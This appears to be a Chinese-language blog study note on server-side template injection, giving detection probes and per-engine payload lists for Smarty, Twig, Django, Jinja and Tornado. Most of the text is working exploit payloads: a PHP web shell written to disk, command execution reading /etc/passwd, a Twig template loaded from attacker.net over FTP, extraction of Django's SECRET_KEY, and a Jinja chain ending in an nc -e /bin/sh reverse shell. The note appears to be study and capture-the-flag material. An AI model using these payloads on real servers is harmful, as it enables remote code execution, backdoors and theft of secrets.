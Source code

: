 ```yaml
---
title: SSTI模板注入
comments: true
hide: false
date: 2020-12-13 14:58:27
urlname: ssti
updated: 2020-12-15 11:58:27
permalink:
tags:
  - SSTI
categories: 
  - 杂谈笔记
  - 学习笔记
---
```




SSTI模板注入

<!-- more -->

# SSTI漏洞

## 什么是模板注入

 SSTI （服务器端模板注入）也是格式化字符串的一个非常好的例子，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是。这种模板不仅存于Python中，PHP中也有不少模板引擎。



## 检测流程

![SSTI流程](SSTI/SSTI流程.png)

首先输入`{{7*7}}`，返回值为`49`则表明存在SSTI

输入`{{system('cat /etc/passwd')}}`如果返回值则表明为**Smarty模板引擎**

输入`{{7*'7'}}`如果返回值是`49`则为**Twig模板引擎**

如果返回值是`7777777`则为**JinJa模板引擎**



---

## 姿势总结

### Smarty

payload：

```
{self::getStreamVariable("file:///etc/passwd")}

{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

{literal}alert('xss');{/literal}

{if readfile('/flag')}{/if}
```



### Twig

payload:

```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /etc/passwd")}}

<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat /etc/passwd") }
```



### Django

payload:

```
{user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}
{user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```



### Jinja

payload:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}
//写文件
{{ config.from_pyfile('/tmp/evil') }}
//加载system
{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}
//执行命令反弹SHELL
```



### Tornado

payload:

```
http://ip:port/error?msg={{handler.settings}}
```



 